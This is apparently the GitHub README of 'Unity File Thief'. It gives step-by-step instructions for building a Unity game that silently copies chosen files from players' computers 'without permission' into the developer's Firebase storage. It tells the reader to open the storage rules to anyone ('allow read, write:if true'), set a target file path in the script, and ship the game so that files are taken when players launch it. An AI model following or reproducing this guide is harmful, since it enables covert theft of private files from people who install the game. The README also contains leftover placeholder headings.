 #🛠It's Updating ...🛠
# ⚠️You May Encounter Errors If You Use It.⚠️


# Unity File Thief
Capture the files of users who installed the Application or Game you created in Unity from an address on their computers without permission (or by asking) and store them on the cloud (Firebase). After collecting the file from the user, you can change the path via Firebase and pull different files.  


## Content
- [Basic Step by Step - Setup](#basic-step-by-step)
- [Başlık 2](#başlık-2)
- [Başlık 3](#başlık-3)

## Basic Step by Step
1- Prepare Unity For Project 


##

## Set Up
1- Open your new Unity Project  
**FOR FIREBASE**  
2- Go to : https://console.firebase.google.com/ , If you dont have any account, Sing Up  
3- Add new Project on firebase ; enter a name, Select default account for firebase  
4- Select Unity under the "Get started by adding Firebase to your app" text.  
5- Choose a register type.  
6- Download config file (2nd step) and SDK zip (3th step).  
7- Go to Your Project Console and open -> Build>Storage -> Get Started -> Next -> Done  
8- Under the "Storage" text, select Rules.  
9- Delete the texts of Rules File. And Copy and Paste that Rule :  
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
**TURN TO UNITY**  
10- Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)  
11- Add config file to that folder. (Config file in the 6th step of the set up)  
12- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages and drop to project panel on the unity  
13- Import all  
14- Create new GameObject and add fileThieff.cs to your GameObject  
**SET THE SCRIPT**  
15- Go to  Firebase Storage of the YourProject Panel again. There is a copy button Left side of the Upload file  
16- Click Copy button or copy that Url which starts with gs (example ->  gs://file-thied.appspot.com )  
17- Turn to our script. Find that code line "StorageReference storageRef = storage.GetReferenceFromUrl("gs://file-thied.appspot.com/").Child(storagePath);"  
18- Delete that part  ""gs://file-thied.appspot.com/"" and paste your Url  
19- Select the path which file you want to take. Dont get a folder, only file.  
20- Under the Start Method, Find UploadFile() Function and write path (example -> "C:\\aFile\\aText.txt" )  
21- Save the Code and Start Your Game.  
**GET RESULT**  
22- When the users open your game; If they have that file, Our game take its file.  
23- Files go to Storage. You can see the documents on that tab.  



## Set Up v2.0
1- Open your new Unity Project on Unity Hub   
   
**🛠️ SET FIREBASE REALTIME DATABASE & STORAGE FOR UNITY 🛠️**   
2- Go to : https://console.firebase.google.com/ . If you dont have any account, Sing Up   
3- Add new Project on Firebase Console ;   
&nbsp;&nbsp;&nbsp;&nbsp;· Enter a Project Name   
&nbsp;&nbsp;&nbsp;&nbsp;· (Don't need to enable "Google Analytics")   
&nbsp;&nbsp;&nbsp;&nbsp;· Create Project   
4- Add the application to be used in the project panel you opened as Unity
![image](https://github.com/SabriACUN/Unity-File-Thief/assets/96339137/37fc2ca2-5789-4f6f-9de2-b81412b0fee8)
<img src="(https://github.com/SabriACUN/Unity-File-Thief/assets/96339137/37fc2ca2-5789-4f6f-9de2-b81412b0fee8"/>
